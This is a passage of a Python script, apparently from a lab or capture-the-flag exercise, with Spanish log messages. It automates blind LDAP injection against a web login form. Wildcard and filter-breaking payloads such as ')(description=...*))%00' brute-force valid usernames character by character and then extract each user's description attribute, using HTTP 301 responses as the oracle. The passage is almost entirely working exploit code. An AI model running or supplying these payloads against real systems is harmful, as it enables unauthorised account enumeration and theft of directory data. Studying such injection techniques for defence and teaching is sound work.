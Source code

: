     		user = ""
    
    		for position in range(0, 15):
    			for character in characters:
    
    				post_data = "user_id={}{}{}*&password=*&login=1&submit=Submit".format(first_character, user, character)
    				r = requests.post(main_url, data=post_data, headers=header, allow_redirects=False)
    				
    				if r.status_code == 301:
    					user += character
    					break
    				
    		valid_users.append(first_character + user)
    
    	print("\n")
    
    	for user in valid_users:
    		log.info("Usuario válido encontrado: %s" % user)
    
    	print("\n")
    
    	return valid_users
    
    def getDescription(user):
    
    	characters = string.ascii_lowercase + ' '
    	
    	header = {'Content-Type': 'application/x-www-form-urlencoded'}
    
    	description = ""
    	
    	p1 = log.progress("Fuerza bruta")
    	p1.status("Iniciando proceso de fuerza bruta")
    	
    	p2 = log.progress("Descripción")
    	
    	for position in range(0, 50):
    		for character in characters:
    			
    			post_data = "user_id={})(description={}{}*))%00&password=*&login=1&submit=Submit".format(user, description, character)
    			
    			r = requests.post(main_url, data=post_data, headers=header, allow_redirects=False)
    	
    			if r.status_code == 301:
    				description += character
    				p2.status(description)
    				break
    	
    	p1.success("Proceso de fuerza bruta concluido")
    	p2.success("La descripción del usuario %s es: %s" % (user, description))
    	
    	print("\n")
    
    if __name__ == '__main__':
    
    	initial_users = getInitialUsers()
    	valid_users = getUsers(initial_users)
    	
    	for i in range(0, 5):
    		getDescription(valid_users[i])
    	
    	
    	print(valid_users)
    ```
